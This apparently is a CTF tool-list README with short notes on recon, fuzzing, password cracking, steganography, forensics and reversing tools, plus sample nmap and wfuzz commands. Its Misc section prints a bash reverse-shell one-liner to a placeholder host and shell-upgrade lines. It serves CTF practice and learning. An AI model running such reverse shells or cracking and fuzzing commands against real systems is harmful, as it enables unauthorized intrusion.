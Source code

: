 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz
Fuzz urls
`$ wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php`
Fuzz post requests
`$ wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"`
Fuzz Cookies
`$ wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ`

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### [pwntools](https://github.com/Gallopsled/pwntools)

##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### [StegCracker](https://github.com/Paradoxis/StegCracker)
Bruteforce steg hide with a wordlist 
##### [steghide](http://steghide.sourceforge.net/)
##### [zsteg](https://github.com/zed-0xff/zsteg)
detect stegano-hidden data in PNG & BMP
##### [jsteg](https://github.com/lukechampine/jsteg)
Lsb stegonography for JPEG
##### pngcheck
##### [stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)
Docker image that does stegonography magic
##### Online tools
https://stylesuxx.github.io/steganography/


## Network
##### Wireshark
##### NetworkMiner
Finds files and other things in pcap files, requires mono

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### [checksec](https://github.com/slimm609/checksec.sh)
##### angr
##### [z3](https://github.com/Z3Prover/z3)
##### [libc-database](https://github.com/niklasb/libc-database)
https://libc.rip/

## Crypto
##### [Prime factorisation](https://www.alpertron.com.ar/ECM.HTM)

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`

<<<<<<< Updated upstream

##### Linux enumeration
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[Linenum](https://github.com/rebootuser/LinEnum)

##### Wordlists
[Rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
[SecLists](https://github.com/danielmiessler/SecLists)

###### Cewl 
Wordlist generator

##### Regripper
Windows registery extraction tool, requires wine

## Links
##### [CyberChef](https://gchq.github.io/CyberChef/)
##### [Virus total](https://www.virustotal.com/)
##### [Have I been Pwned](https://haveibeenpwned.com/)
##### [asm simulator](https://carlosrafaelgn.com.br/asm86/)


